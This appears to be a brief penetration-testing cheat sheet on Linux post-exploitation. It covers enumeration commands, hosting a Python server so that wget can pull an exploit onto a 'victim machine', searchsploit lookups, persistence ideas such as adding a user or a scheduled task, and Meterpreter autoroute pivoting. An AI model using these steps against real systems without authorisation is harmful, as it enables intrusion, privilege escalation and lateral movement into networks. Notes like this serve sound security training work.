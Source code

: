 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
    
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
         <hostshare>/Tools/Exploit/Discovery
          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l

   
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Exploit

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
    
## Privilege Escalation

[Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

Check /etc/passwd for user/ gorup ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start




   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
# Find more

  Metasploit
  
    /post/linux/


